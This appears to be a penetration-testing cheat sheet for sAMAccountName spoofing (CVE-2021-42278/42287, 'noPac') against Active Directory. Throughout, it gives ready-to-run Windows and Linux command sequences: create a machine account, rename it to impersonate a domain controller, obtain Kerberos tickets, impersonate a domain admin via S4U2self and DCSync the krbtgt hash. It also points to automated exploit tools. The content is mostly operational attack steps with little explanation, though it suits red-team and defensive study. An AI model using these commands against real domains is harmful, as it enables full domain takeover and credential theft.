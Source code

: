 # sAMAccountName spoofing

## Windows

### Add computer account
```
New-MachineAccount -MachineAccount <newComputer> -Password $(ConvertTo-SecureString '<newPassword>' -AsPlainText -Force)
```

### Set serviceprincipalname to empty value
```
Set-DomainObject -Identity <newComputer> -Clear serviceprincipalname
```

### Change sAMAccountName to Domain Controllers name without trailing $
```
Set-MachineAccountAttribute -MachineAccount "<newComputer>" -Value "<dcNo$>" -Attribute samaccountname -Verbose
```

### Request a TGT for new computer account
```
Invoke-Rubeus -Command 'asktgt /user:<dcNo$> /password:<newPassword> /domain:<domain> /dc:<fqdnDc> /nowrap'
```

### Reset the controlled machine account sAMAccountName to its old value
```
Set-MachineAccountAttribute -MachineAccount "<dcNo$>" -Value "<newComputer>" -Attribute samaccountname -Verbose
```

### Obtain a service ticket with S4U2self by presenting the previous TGT
```
Invoke-Rubeus -Command 's4u /self /impersonateuser:<domainAdmin> /altservice:cifs/<fqdnDc> /dc:<fqdnDc> /ptt /ticket:<base64>'
```

### Dcsync
```
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /kdc:<fqdnDc> /user:<targetUser>"'
```

### Automatic - receive TGT of vulnerable domain controller
```
.\noPac.exe scan -domain <domain> -user <user> -pass <password>
Invoke-noPAC -Command 'scan -domain <domain> -user <user> -pass <password>'
```

## Linux

### Add computer account
```
impacket-addcomputer -computer-name '<newComputer>' -computer-pass '<newComputerPassword>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Set serviceprincipalname to empty value
```
impacket-addspn -u '<domain>\<user>' -p '<password>' -t '<newComputer>' -dc-ip <dcIp>
```

### Change sAMAccountName to Domain Controllers name without trailing $
```
renameMachine -current-name '<newComputer$>' -new-name '<domainController>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Request a TGT for new computer account
```
impacket-getTGT -dc-ip <dcIp> '<domain>/<domainController>:<newComputerPassword>'
```

### Reset the controlled machine account sAMAccountName to its old value
```
renameMachine -current-name '<domainController>' -new-name '<newComputer$>' -dc-ip <dcIp> '<domain>/<user>:<password>'
```

### Obtain a service ticket with S4U2self by presenting the previous TGT
```
KRB5CCNAME='domainController.ccache' impacket-getST -self -impersonate '<targetAdmin>' -spn 'cifs/<domainController>.<domain>' -k -no-pass -dc-ip <dcIp> '<domain>'/'<domainController>'
```

### Dcsync
```
KRB5CCNAME='<targetAdmin>.ccache' impacket-secretsdump -just-dc-user 'krbtgt' -k -no-pass -dc-ip <dcIp> @<fqdn>
```

### Automatic - receive TGT of vulnerable domain controller
```
python noPac.py <domain>/<user>:<password> -dc-ip <dcIp>
```

### References
* https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html  
* https://github.com/cube0x0/noPac  
* https://github.com/Ridter/noPac  
* https://www.cvedetails.com/cve/CVE-2021-42278  
* https://www.cvedetails.com/cve/CVE-2021-42287  
* https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing  
* https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Recon/PowerView.ps1  
* https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1  
* https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1  
* https://raw.githubusercontent.com/SecureAuthCorp/impacket/b4fbcf9196e9b6098edae0ae7794005d2e138ccd/examples/renameMachine.py  
* https://gist.githubusercontent.com/S3cur3Th1sSh1t/0ed2fb0b5ae485b68cbc50e89581baa6/raw/4f0ab724a11c8984c29097250b1a8263e013d183/Invoke-noPac.ps1

